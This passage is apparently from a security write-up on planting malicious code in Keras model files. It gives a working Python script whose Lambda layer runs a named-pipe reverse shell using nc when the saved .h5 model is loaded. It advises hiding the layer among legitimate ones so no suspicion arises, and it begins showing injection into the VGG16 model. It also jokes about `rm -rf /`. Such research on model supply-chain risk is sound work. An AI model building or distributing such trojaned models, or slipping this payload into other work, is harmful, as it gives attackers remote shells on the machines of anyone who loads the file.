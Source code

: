 The most important part is the `Lambda` layer the other layer is just there for show. However in a real scenario this malicious layer would probably be hidden with tens of other legitimate layers in a working model so that no suspicions arise.

The script above will create an `exploit.h5` which when loaded will execute the serialized `exploit` function and create the file `/tmp/pwned`. You should note that when saving the model the `exploit` function will also be executed (aka don't put `rm -rf /` in there or you'll end up bricking your own box 😉).

Here is a demo with a reverse shell:

[![asciicast](https://asciinema.org/a/6zGalbh7hesUuomvWiiGrg4b0.svg)](https://asciinema.org/a/6zGalbh7hesUuomvWiiGrg4b0)

```py
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 6666 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

Anything is possible with a good Machine Learning model these days! Even getting a reverse shell!

## Hiding the Malicious Lambda

Now let's try and embed the malicious layer into a regular model to turn it into our infected model. For this I picked an off-the-shelf model provided by Keras called VGG16, some state of the art image recognition model... but we don't care!

```py
from tensorflow import keras

image = keras.utils.load_img('dog.jpg', target_size=(224, 224))
image = keras.utils.img_to_array(image)
image = image.reshape((1, image.shape[0], image.shape[1], image.shape[2]))
image = keras.applications.vgg16.preprocess_input(image)
model = keras.applications.vgg16.VGG16()
yhat = model.predict(image)
label = keras.applications.vgg16.decode_predictions(yhat)
label = label[0][0]
print('%s (%.2f%%)' % (label[1], label[2]*100))
```

This is the code without injection, and when we give it a nice picture of a dog... it spits out a nice: `Doberman (36.76%)` .
